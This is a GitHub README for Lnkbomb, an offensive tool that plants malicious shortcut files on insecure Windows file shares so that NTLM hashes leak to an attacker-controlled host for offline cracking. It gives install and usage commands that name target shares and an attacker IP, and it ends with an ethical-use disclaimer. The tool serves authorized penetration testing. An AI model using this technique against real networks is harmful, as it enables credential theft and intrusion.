 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example.png" />
</p>

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

## Usage
Installing Lnkbomb

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)```

```-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)```

Examples of full commands include:

```python3 lnkbomb.py -t \\192.168.1.1\Share -a 192.168.1.2```

```python3 lnkbomb.py -r randomfilegenerated.recover```

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example2.png" />
</p>

### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  
